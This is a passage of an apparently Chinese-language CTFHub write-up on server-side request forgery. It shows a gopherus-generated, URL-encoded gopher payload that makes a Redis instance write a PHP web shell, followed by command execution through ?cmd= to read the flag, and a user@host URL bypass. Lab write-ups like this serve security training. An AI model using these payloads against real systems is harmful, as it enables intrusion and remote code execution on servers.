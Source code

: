 ![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751708362166-b4d18f1d-c540-4f31-8d39-04d6f70bac07.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751708878530-1f08ff58-2cab-4fdb-a1b6-b1f0f2dc88ef.png)

蚁剑连接`[http://challenge-ab6a103940705427.sandbox.ctfhub.com:10800/shell.php](http://challenge-ab6a103940705427.sandbox.ctfhub.com:10800/shell.php)`成功

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751708914826-e3666179-2fb9-4451-9287-109d32b9c368.png)

### Redis协议
```html
http://challenge-2330ba3a9a6a7458.sandbox.ctfhub.com:10800/?url=dict://127.0.0.1:6379
```

gopherus生成exploit

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751773859076-57c643ec-f8b3-42d0-8279-7d90a5aeedce.png)

url编码

```html
gopher%3A%2F%2F127.0.0.1%3A6379%2F_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252434%250D%250A%250A%250A%253C%253Fphp%2520system%2528%2524_GET%255B%2527cmd%2527%255D%2529%253B%2520%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A%2Fvar%2Fwww%2Fhtml%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751774949929-4df9cf3e-ade3-4a1e-b5bf-feff2136739d.png)

响应返回504，访问shell.php成功

```html
http://challenge-2330ba3a9a6a7458.sandbox.ctfhub.com:10800/shell.php?cmd=ls
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751775003360-93e67cb6-0229-4ca7-990f-b5f7934b30c8.png)

```html
?cmd=ls /
?cmd=cat /flag_eb4d87188e48c82b40fe59e7eb88ee74
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751775066088-ba015afe-22ca-4aa4-8538-c99b36e0ab97.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751775107485-792ddb2a-62af-4a97-8027-6d6853cdf77f.png)

### URL Bypass
```html
?url=http://notfound.ctfhub.com@127.0.0.1/flag.php # 协议://user@url
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751799790180-8fd17bb6-562d-4d9a-ae95-4a31c2f58f88.png)
